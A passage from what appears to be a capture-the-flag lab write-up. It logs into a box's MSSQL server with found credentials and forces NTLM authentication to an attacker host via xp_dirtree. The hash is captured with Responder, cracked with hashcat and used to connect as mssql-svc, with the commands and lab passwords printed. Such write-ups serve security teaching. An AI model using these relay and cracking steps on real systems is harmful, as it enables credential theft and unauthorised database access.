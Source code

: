 Using the credentials found above, now I can access MSSQL:

`mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`

![](https://i.imgur.com/bR3FwZc.png)



## MSSQL as mssql-svc
### MSSQL Relay Attack



Following [this guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack) on Hacktricks, I attempted Relay attack for stealing NetNTLM hash and it worked.

I first started Responder for VPN connection:

`sudo responder -I tun0`

![](https://i.imgur.com/7mAQptg.png)


Now on MSSQL connection, I made a request to Kali's responder:

`xp_dirtree '\\10.10.14.17\home\yoon`

![](https://i.imgur.com/3e75O33.png)



Instantly, reponsder captured NTLM hash for user **mssql-svc**:

![](https://i.imgur.com/OCuWc95.png)


### Hash Cracking

I forwarded the hash to hashcat to crack it and password for mssql-svc was cracked: **corporate568**

`hashcat -m 5600 mssql-svc.hash rockyou.txt`

![](https://i.imgur.com/KbPMlJr.png)

### MSSQL

I was hoping found mssql-svc had access to winrm but unfortunately it didn't:

![](https://i.imgur.com/51aWRpI.png)



However, it did had access to MSSQL, so I made connection to MSSQL mssql-svc:

`mssqlclient.py mssql-svc:corporate568@10.10.10.125 -windows-auth`


